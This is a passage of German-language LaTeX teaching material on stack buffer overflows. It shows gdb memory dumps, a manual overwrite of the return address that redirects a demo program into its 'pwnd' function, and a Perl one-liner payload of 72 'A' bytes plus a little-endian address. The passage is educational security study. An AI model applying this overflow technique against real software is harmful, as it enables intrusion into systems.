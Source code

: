 \begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
(gdb) disas pwnd
Dump of assembler code for function pwnd:
   0x000000000040060c <+0>:     push   %rbp
   [...]	

End of assembler dump.
(gdb) x/12xg 0x7fffffffe950
0x7fffffffe950: 0x4141414141414141      0x00007ffff7ff9100
0x7fffffffe960: 0x00007ffff7ffe190      0x0000000000f0b2ff
0x7fffffffe970: 0x0000000000000001      0x000000000040069d
0x7fffffffe980: 0x00007fffffffe9be      0x0000000000000000
0x7fffffffe990: 0x00007fffffffe9b0      0x000000000040064c
0x7fffffffe9a0: 0x00007fffffffea98      0x0000000200000000
(gdb) set {char}0x7fffffffe998 = 0x0c
(gdb) set {char}0x7fffffffe999 = 0x06
(gdb) x/12xg 0x7fffffffe950
0x7fffffffe950: 0x4141414141414141      0x00007ffff7ff9100
0x7fffffffe960: 0x00007ffff7ffe190      0x0000000000f0b2ff
0x7fffffffe970: 0x0000000000000001      0x000000000040069d
0x7fffffffe980: 0x00007fffffffe9be      0x0000000000000000
0x7fffffffe990: 0x00007fffffffe9b0      0x000000000040060c
0x7fffffffe9a0: 0x00007fffffffea98      0x0000000200000000
(gdb) c
Continuing.
PWND!
[Inferior 1 (process 1190) exited normally]
(gdb)
\end{lstlisting}

Um den Aufwand einer manuellen Modifikation der Speicheradresse 
möglichst gering zu halten, kann man den Vorgang mit der Script-Sprache \texttt{Perl} 
automatisieren:

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
(gdb) run `perl -e 'print "A"x72 . "\x0c\x06\x40"'`
String: AAAAAAAAAAAAAAAAAAAAAAAAA ... AAAAAA@
PWND!
[Inferior 1 (process 1624) exited normally]
(gdb)
\end{lstlisting}

\newpage
Dabei werden insgesamt \SI{72}{Byte} mit dem Zeichen \texttt{A} 
überschrieben und \SI{3}{Byte} mit hexadezimalen Werten:

\begin{itemize}
      \item \SI{64}{Byte} Speicherplatz der \texttt{data}-Variablen    
      \item \SI{8}{Byte} Basepointer
      \item \SI{3}{Byte} Rücksprungadresse unter Berücksichtigung der Byteorder (Little-Endian)
\end{itemize}

\textbf{Hinweis:}

Wird zur Nachstellung des Beispiels ein veralteter \texttt{gcc}-Compiler 
in der Version 3.x\footnote{\url{http://www.trapkit.de/papers/gcc\_stack\_layout\_v1\_20030830.pdf}} 
verwendet, ist es möglich, dass dieses Beispiel nicht funktioniert!

